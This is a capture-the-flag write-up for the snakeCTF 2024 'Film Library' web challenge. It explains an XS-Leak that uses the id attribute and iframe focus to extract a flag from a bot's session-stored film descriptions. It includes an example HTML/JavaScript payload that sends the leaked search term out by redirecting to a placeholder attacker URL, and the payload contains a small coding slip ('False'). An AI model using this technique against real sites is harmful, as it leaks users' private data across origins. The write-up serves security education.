 # Film Library [_snakeCTF 2024 Quals_]

**Category**: web

## Description

I made this little app to track the movies I watch.

### Hints

- Uh, what's that count for?

## Solution

The challenge is made of a simple app and a bot.
The application purpose is to store film data (`title` and `description`) in the `session` cookie and allow users to search them.
The bot represents a user who can interact with the app, and the flag is stored in the description of one of his films:

```js
    let page = await browser.newPage();
    ...
    await page.goto(process.env.PAGE_URL + "/add", {
      waitUntil: "networkidle2",
      timeout: 10000,
    });

    await page.type("#title", "The lovely film about the flag");
    await page.type("#description", process.env.FLAG);
    await page.click("#submit");

    console.log(`Admin navigating to ${url}`);
    await page.goto(url, {
      waitUntil: "networkidle2",
      timeout: 10000,
    });
```

The cookie attribute `SameSite` is set to `None`. This means that it is sent inside every request to the server.
The cookie is not directly accessible from the response of a request, for example using `fetch`, because of [Same Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) is applied because no [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) headers are set. Even if one could find an XSS it wouldn't be easily exploitable, since the cookie is set to `httpOnly`.

The application uses [pugjs](https://pugjs.org/api/getting-started.html) to render pages, but no template injection seems to be present because templates are always compiled from the files.

First, one can notice that the search endpoint allows searching for both title and description of the films:

```js
    ...
    let films = req.session.films;
    let filter = req.query.filter;
    let filtered = films.filter((x) => {
      return x.title.includes(filter) || x.description.includes(filter);
    });
    ...
```

Since the bot has the flag inside the description of a film, any oracle to detect the presence/absence of the result can be used to bruteforce the result of the query!
To this end, the attributes id can be used, since they are present in the resulting page:

```js
    search result for #{query}
    each film in result
        div
            a(href="/film?id=" + film.id, id="film-" + film.id, name="film-" + film.id) #{film.title}
```

This kind of attack is called [XS-Leak](https://xsleaks.dev/), more precisely targeting the [id attribute](https://xsleaks.dev/docs/attacks/id-attribute/), and can be performed using iframes:

- The iframe will load the search page with a specific query, such as `snakectf{a`
- The URL will have a fragment to the id attribute, such as `#film-0`
- If the element with the specified id is present, the iframe will get the focus
- JavaScript can be used to detect whether the focus has moved, using `window.document.activeElement`

This is an example payload:

```html
<html>
  <body>
    <script>
      let iframe;
      let found = False;
      iframe = document.createElement("iframe");
      iframe.src = "<challenge_url>/search?filter=snakeCTF{a#film-0";
      document.body.appendChild(iframe);
      setInterval(() => {
        if (document.activeElement != document.body && !found) {
          //console.log(window.document.activeElement);
          const u = new URL(window.document.activeElement.src);
          document.location =
            "<attacker_controlled_url>/" + u.searchParams.get("filter");
          found = true;
        }
      }, 20);
    </script>
  </body>
</html>
```

With this payload, every 20 ms JavaScript checks whether the iframe stole the focus, and if it will perform a redirect the attacker page.
The exploit can be automated and optimized, as given in the [attachments](./attachments/solver.py).
